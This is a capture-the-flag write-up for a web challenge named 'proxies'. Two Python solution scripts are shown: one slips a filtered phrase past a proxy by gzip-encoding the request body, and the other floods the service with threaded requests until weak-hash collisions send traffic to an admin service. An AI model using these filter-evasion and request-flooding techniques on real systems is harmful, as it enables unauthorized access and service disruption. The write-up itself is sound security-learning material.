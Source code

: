 # proxies - web

There is tcp proxy written in go that handles tunnel between proxy service (entry point) and agent service (target with flags).

The accessible services are written in flask
proxy service on proxy container
user and admin service on agent container


flag 1 

You could just get flag if send post "GIVE ME FLAG!" to any non empty path /xxx
but proxy filters traffic and replaces text that lowercase matches 'give me flag!' with 'REDACTED   '.

Solution: user service allows to send encoded post data in request (that is not standard behavior at all) if Content-Encoding header is specified in req

solution: send gzip encoded req (proxy analyzes raw tcp data) 

```python
import requests
import gzip

url = "https://inst-6ead480c13c5fb46-proxies.chal.crewc.tf/"


r = requests.post(url+"/aaaa",data=gzip.compress(b"GIVE ME FLAG!"),headers={"Content-Encoding":"gzip"})

print(r.text)
```

flag 2


agent listens for connections from proxy. It caches req and calculates weak hash (small part of sha256 applied n times). Data is send based on request hash so if hash collision happens data is sent to different socket.

solution: just spam reqs and requests to both user and agent(30/s is enough) and req to user service port eventually become req to admin service port

```python
import _thread


url = "https://inst-7051cacd9c6e0fad-proxies.chal.crewc.tf/"


def req(part):
    import requests

    resp = requests.get(url+part)

    #print(resp.text,part)
    _filter = ["OK", "Error contacting admin service"]
    if not any([x == resp.text for x in _filter]):
        print(mod, resp.text)
2


if __name__ == "__main__":
    import time
    for i in range(100000):

        mod = i
        print(mod)
        for j in range(30):
            part = "/admin_check" if (i+j)%2==0 else "/admin"

            _thread.start_new_thread(req, (part,))
        time.sleep(3)

    time.sleep(100)
```
